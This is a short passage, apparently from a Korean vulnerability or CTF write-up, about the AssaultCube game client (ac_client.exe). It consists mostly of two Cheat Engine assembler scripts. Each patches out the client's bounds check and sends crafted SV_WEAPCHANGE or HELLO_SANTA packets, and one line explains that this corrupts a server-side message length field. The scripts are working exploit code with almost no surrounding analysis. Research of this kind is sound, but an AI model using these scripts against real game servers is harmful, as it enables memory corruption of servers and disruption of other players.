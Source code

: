 ```
alloc(sender,255)
alloc(message_type,100)

ac_client.exe+205E0: //bypass client oob
db EB

message_type:
db 'ri'

sender:
push #98
push message_type
push #61 // SV_WEAPCHANGE
call ac_client.exe+204B0
add esp,C
ret

createthread(sender)
```

위 코드를 실행하면 `SV_WEAPCHANGE` 취약점으로 인해 textmessage.alen값이 0x20에서 의도되지 않은 값 0x5343으로 변경된다.

```
alloc(hook,255)
alloc(htype,64)
alloc(count,4)
label(notgoing)

ac_client.exe+205E0: //bypass client oob
db EB

htype:
db 'ri'

hook:
pushad
pushfd
inc [count]
mov eax, [count]
cmp eax, 20
ja notgoing
push 41
push htype
push #93 // HELLO_SANTA
call ac_client.exe+204B0
add esp,#12
notgoing:
popfd
popad
mov eax,[edx+000001F0]
jmp ac_client.exe+2D2B2

ac_client.exe+2D2AC:
jmp hook
```
